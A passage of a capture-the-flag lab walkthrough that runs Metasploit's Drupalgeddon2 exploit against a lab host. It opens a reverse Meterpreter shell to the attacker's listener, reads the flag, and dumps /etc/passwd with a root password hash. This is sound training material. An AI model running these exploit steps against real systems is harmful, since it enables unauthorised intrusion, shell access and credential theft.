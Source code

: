 Setting option values:

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LHOST tun0
LHOST => 192.168.45.201
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS lampiao
RHOSTS => lampiao
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 1898
RPORT => 1898
```

Running the exploit:

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.45.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.214.48
[*] Meterpreter session 1 opened (192.168.45.201:4444 -> 192.168.214.48:42442) at 2024-03-31 19:58:35 -0700

meterpreter >
```

Spawning a shell:

```
meterpreter > shell
Process 7833 created.
Channel 0 created.
whoami
www-data
```

We find our access flag in `tiago`'s home directory:

```
cd /home
ls
tiago
cd tiago
ls
local.txt
cat local.txt
173ed68515357a6fc5d615cbf93ebeee
```

> So our assumption that username `Eder` was the admin was wrong.

From `/etc/passwd` we learn a hash for user `root`, looks like a `SHA512Crypt`:

```
cat /etc/passwd
root:$6$blDsHpU9$1.jyQg4uduSokEQ9Jgvo.5WkyUW52zP1XPT/PaA54y4y1ozS0WwrYcYUjfLZkBxx85gU2ROt5OpnoR5bDnbJX1:0:0:root:/root:/bin/bash
```

